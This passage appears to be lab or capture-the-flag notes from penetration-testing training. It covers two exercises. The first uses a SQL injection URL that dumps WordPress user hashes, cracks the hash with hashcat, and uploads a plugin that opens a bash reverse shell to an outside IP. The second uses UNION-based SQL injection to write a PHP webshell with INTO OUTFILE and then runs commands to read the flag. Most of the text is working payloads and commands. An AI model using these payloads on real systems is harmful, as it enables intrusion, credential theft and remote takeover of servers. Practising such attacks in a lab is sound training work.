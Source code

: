 ```
4. search - http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users , Found a hash $P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0

5. Cracked hash using hashcat
hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt
$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:hulabaloo 

6. Login using 'admin' as username and 'hulabaloo' as password. http://alvida-eatery.org/wp-admin/

7. upload shell.zip plugin file  and activate it.
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.195/443 0>&1'");
?>
  
8. Establish a netcat listener. Then captured flag. 
www-data@Alvida:/var/www$ cat flag.txt
cat flag.txt
OS{64b63091c16192d02398d2bdf5859631}

```

5. Follow these steps. 
```
HINTS: 
1) Capture the request of subscribing newsletter with Burp and test the parameter for sqli vulnerability with a single quote (').
2) Use an ORDER BY query to determine the number of columns in the vulnerable parameter.
3) To find the correct column, you can test the "@@version" payload for each column to check if you are retrieving the database version.
4) Inject a simple php webshell payload using a "union select" query and "into outfile" write the webshell to the /var/www/html directory.
5) Access the webshell for RCE and execute commands on the server.



1. Found out there are 6 column using command ' ' ORDER BY 7-- //'
2. Found out fifth column is vulnerable by trial and errors. Get this details at that place (' UNION SELECT null, null, null, database(), user(), @@version  -- //)
user: gollum@localhost
version: 8.0.29
Database: animal_planet
3. Inject web shell successfully. 
(' UNION SELECT null, null, null, null, '<?php+system($_GET["cmd"]); ?>', null into outfile '/var/www/html/rce.php'#)
4. Visit web page - http://192.168.218.48/rce.php?cmd=cat%20../flag.txt , Obtained flag. 
\N \N \N \N OS{3dcaa89a6a54b5beada833140ef53f4f} \N 
```
